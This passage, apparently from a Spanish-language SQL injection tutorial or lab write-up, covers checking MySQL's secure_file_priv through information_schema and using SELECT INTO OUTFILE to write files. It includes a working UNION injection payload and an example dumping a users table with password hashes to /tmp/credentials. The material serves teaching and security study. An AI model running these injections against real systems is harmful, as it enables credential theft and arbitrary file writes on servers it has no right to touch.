 Sin embargo, como estamos utilizando una inyección UNION, tenemos que obtener el valor mediante una instrucción SELECT. Esto no debería suponer ningún problema, ya que todas las variables y la mayoría de las configuraciones se almacenan en la base de datos **INFORMATION_SCHEMA**. 

Las variables globales de MySQL se almacenan en una tabla llamada **global_variables** y, según la documentación, esta tabla tiene dos columnas: **variable_name** y **variable_value**.

```sql
SELECT variable_name, variable_value FROM information_schema.global_variables where variable_name="secure_file_priv"
```

```sql
cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
```

![image](/assets/img/posts/sql-injection/20251013171734.png)

Como vemos está vacía por lo que podemos leer y escribir ficheros en cualquier lugar.


##### SELECT INTO OUTFILE

La instrucción **SELECT INTO OUTFILE** se puede utilizar para escribir datos de consultas select en archivos. Normalmente se utiliza para exportar datos de tablas.

Para utilizarla, podemos añadir INTO OUTFILE “...” después de nuestra consulta para exportar los resultados al archivo que hayamos especificado.

```shell-session
SELECT * from users INTO OUTFILE '/tmp/credentials';
```

```shell-session
$ cat /tmp/credentials 

1       admin   392037dbba51f692776d6cefb6dd546d
2       newuser 9da2c9bcdf39d8610954e0e11ea8f45f
```

También podemos directamente exportar strings haciendo posible crear archivos.

```sql
SELECT 'this is a test' INTO OUTFILE '/tmp/test.txt';
```

